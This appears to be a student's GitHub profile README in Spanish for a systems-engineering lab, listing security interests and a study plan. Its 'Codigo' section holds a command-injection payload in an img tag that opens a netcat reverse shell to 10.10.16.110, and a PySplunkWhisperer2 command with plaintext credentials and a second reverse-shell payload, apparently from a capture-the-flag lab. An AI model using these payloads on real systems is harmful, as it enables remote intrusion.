 # CVDSLAB1
## Nombre
**Cristian Camilo Pineros Arevalo.**
## Informacion Basica
_Estudiante de ingenieria de sistemas con enfasis en seguridad._
## Perfil
![images](perfil.jpg)

Ingeniero de Sistemas con interés en el área de seguridad informática y redes.
Conocimientos en

ethical hacking\
ciberseguridad\
desarrollo de software\
Con experiencia en el uso de herramientas como Java, Python, SQL, Github,
Kali Linux, Parrot.
## Plan de estudio
- CVDS
- MCSW-M1

## Codigo
~~~<img src=http://10.10.16.110/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.16.110'$IFS'1234')>



python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.16.110  --username shaun --password Guitar123 --payload 'nc.traditional -e/bin/sh '10.10.16.110' '4444''~~~
